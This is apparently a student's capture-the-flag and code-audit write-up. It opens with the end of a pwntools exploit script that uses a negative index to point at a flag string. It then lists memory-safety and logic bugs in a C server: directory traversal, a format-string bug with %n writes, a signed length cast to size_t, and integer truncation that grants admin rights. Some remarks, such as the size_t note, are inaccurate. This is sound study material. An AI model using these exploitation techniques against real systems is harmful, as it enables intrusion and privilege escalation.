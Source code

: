 ```
# print(len(payload))
# From the binary, the address to string comes first then the int id.
# Place negaitve index, -2, as hex
payload += b'\xfe\xff\xff\xff'
# print(len(payload))
# Place address that points to our flag string
payload += p32(0x804c070)
# print(len(payload))
# Fill in remaining. Apparently a payload of size 127 or highest doesn't work.
payload += b'\0' * (126 - len(payload))
# print(len(payload))
p.sendline(payload)
p.interactive()

```

source.c challenge
==========================================================
General overview of problems faced
Have to look up the manual for almost all functions to check if they were used correctly, and see if there were known bugs.
Only list memory corruption bugs.
---------------------------------------------------------
lines: Bug
71   : Here the user input argument is appended to the "./webpath/" string. This is a directory traversal vulnerability. Users can input directory traversal commands like ../ to get a file they need. For this particular function, they can open/create any file and write into it. The flag "w" in line 72 means that if the file exists, it's contents are erased and the file will then be written into by the user. This can cause damage to the system if the attacker so wishes. Attackers may write scripts they may be able to run with another vulnerability. Important to note that FILENOTEAVAIL is untrue since fopens with flag "w" creates a new file if it does not exit.
97   : Same as above, we have a directory traversal vulnerablity. However, for this function, it is for the purposes of leaking. Attackers will be able to read a file in any directory using directory traversal in their string such as "..". They would be able to leak important files.
131  : int handle_conn() function does not have return a value, when it should be expecting a return value of type int. In x86 systems, it "returns" whatever is in eax. An attacker could store some malicious data in the eax register, where it may be executed later, with a call eax gadget. Even if the attacker cannot store data in eax directly, the function likely moves many values into eax, and exiting at the right time may allow the attacker to escalate.
139  : This line assigns the return value of write_socket to len. Write_socket has the capacity to return -1. So, we could get len = -1. This is an invalid len. Functions that would utilise this len usually specify the type as size_t which is an unsigned integer type. This can transform the len into a large number, one that the developer was not expecting. This large len can be used to overflow the buffer, or do large reads to leak stuff, since the buffer is not initialised to that large number.
NOTE (research): -1 is 0xFFFFFFFF. size_t is at least 16 bits (4 bytes) and 0xFFFFFFFF would be the highest value size_t can have, even when truncated.
146  : syslog has argument log which is a buffer that snprintf transfer to from use input. The attacker can use format string vulnerability here since the string (for example, %x) can be placed where action + 1 is so the log would show "SERVER: d admin level, attempting command x, args %x" (d can be a number that fits in uint8_t and x can be a hexidecimal fitting a byte). This %x will be treated as a format and expect a second argument. However, syslog does not provide one so it'll grab the next thing on the stack and store it. An attacker can combine this with the READ_PAGE command to read where syslog is stored (normally /var/log/syslog) to leak things on the stack. Of course, with format string vulnerability, they can write into memory using %n.
167  : admin_level is uint8_t, whereas level is type int. The attacker controls what number level is (via SET_PERMISSION_LEVEL) so an input that ends in 00 would result in 0x00 which is 0. For example level = 0x00000100 = 256, would do the trick. The attacker now has admin privileges and can use COMMAND. The attacker can even check if his exploit worked through line 143's snprintf since it dissplays admin level. 